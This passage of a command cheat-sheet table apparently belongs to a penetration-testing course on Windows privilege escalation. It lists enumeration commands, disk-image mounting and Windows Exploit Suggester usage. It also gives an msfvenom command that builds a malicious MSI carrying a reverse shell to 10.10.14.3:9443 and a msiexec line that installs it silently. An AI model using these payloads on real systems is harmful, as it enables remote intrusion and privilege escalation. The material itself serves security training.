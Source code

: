 | `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.3 lport=9443 -f msi > aie.msi`                        | Generate a malicious MSI package                   |
| `msiexec /i c:\users\htb-student\desktop\aie.msi /quiet /qn /norestart`                                     | Executing an MSI package from command line         |
| `schtasks /query /fo LIST /v`                                                                               | Enumerate scheduled tasks                          |
| `Get-ScheduledTask \| select TaskName,State`                                                                | Enumerate scheduled tasks with PowerShell          |
| `.\accesschk64.exe /accepteula -s -d C:\Scripts\`                                                           | Check permissions on a directory                   |
| `Get-LocalUser`                                                                                             | Check local user description field                 |
| `Get-WmiObject -Class Win32_OperatingSystem \| select Description`                                          | Enumerate computer description field               |
| `guestmount -a SQL01-disk1.vmdk -i --ro /mnt/vmd`                                                           | Mount VMDK on Linux                                |
| `guestmount --add WEBSRV10.vhdx --ro /mnt/vhdx/ -m /dev/sda1`                                               | Mount VHD/VHDX on Linux                            |
| `sudo python2.7 windows-exploit-suggester.py --update`                                                      | Update Windows Exploit Suggester database          |
| `python2.7 windows-exploit-suggester.py --database 2021-05-13-mssb.xls --systeminfo win7lpe-systeminfo.txt` | Running Windows Exploit Suggester                  |
